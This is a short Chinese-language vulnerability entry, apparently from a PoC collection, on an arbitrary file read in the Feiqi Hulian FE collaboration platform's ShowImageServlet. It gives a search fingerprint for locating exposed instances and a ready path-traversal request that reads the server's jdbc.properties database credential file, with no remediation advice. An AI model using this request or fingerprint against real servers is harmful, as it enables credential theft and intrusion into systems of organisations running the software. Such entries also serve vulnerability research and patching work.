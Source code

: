# 飞企互联 FE业务协作平台 ShowImageServlet 任意文件读取漏洞

## 漏洞描述

飞企互联 FE业务协作平台 ShowImageServlet 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感文件

## 漏洞影响

<a-checkbox checked>飞企互联 FE业务协作平台 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"flyrise.stopBackspace.js"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1691841203744-76e35241-156f-4393-b103-5a317c039d3e.png)

验证POC

```php
/servlet/ShowImageServlet?imagePath=../web/fe.war/WEB-INF/classes/jdbc.properties&print
```

![img](../../../.vuepress/public/img/1691841249185-93bab434-e137-495c-9ec8-48cb4de35486.png)